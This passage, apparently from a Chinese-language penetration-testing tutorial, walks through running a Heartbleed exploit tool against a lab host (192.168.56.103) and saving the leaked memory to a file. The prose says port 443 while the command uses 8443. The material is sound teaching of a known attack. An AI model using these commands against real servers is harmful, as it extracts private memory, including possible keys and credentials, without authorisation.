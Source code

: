 3.  之后我们检查程序的选项，像这样：

    ```
    ./heartbleed --help
    ```

    ![](../img/ab639282c5a4eace1caec72cab13f9ad.png)

4.  我们要尝试利用`192.168.56.103`的 443 端口，获得最大的泄露并保存输出到文本文件`hb_test.txt`。

    ```
    ./heartbleed -s 192.168.56.103 -p 8443 -f hb_test.txt -t 1
    ```

    ![](../img/cf8f2de0f013d9522928b8825b8a80c1.png)

5.  现在，如果我们检查`hb_test.txt`的内容：
